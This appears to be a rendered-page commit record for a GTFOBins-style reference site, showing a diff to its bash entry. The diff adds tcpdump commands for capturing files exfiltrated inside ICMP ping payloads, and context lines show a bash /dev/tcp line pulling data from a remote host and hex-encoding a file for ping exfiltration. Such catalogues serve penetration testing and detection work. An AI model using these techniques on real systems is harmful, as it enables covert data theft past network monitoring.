

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/bash.md, in a window 1280 px wide, cut to the strip 339-1391 px from the top of the page. Shown: the top 1038 px of the strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1319 px from its top, so only the background shows below that.

Commit message:
Update bash.md

```diff
--- a/_gtfoud/bash.md
+++ b/_gtfoud/bash.md
@@ -17,7 +17,11 @@ functions:
       code: |
         bash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
   data-exfiltration:
-    - description: Exfiltrate file contents or command output over ICMP packets embedded in ping requests.
+    - description: |
+        Exfiltration over ICMP packets embedded in ping requests (increment the timeout based on the file content)
+        Set a listener using tcpdump: `sudo timeout 10 tcpdump -i any -l -n -XX 'icmp' 2>/dev/null | grep '0x0060:'` (will require manual parsing cleaning)
+        Automate parsing cleaner: `sudo timeout 10 tcpdump -i any -l -n -XX 'icmp' 2>/dev/null | grep '0x0060:' | sed -n 's/^.*0x0060:.*[[:space:]]\{2,\}//p' | uniq | tr -d '\n' | sed 's/\./\.\n/g'`
+        (may miss dots and spaces)
       code: |
         hex=$(while IFS= read -r line; do for ((i=0; i<${#line}; i++));
         do printf "%02x" "'${line:$i:1}"; done; done < $LFILE); i=0;
```
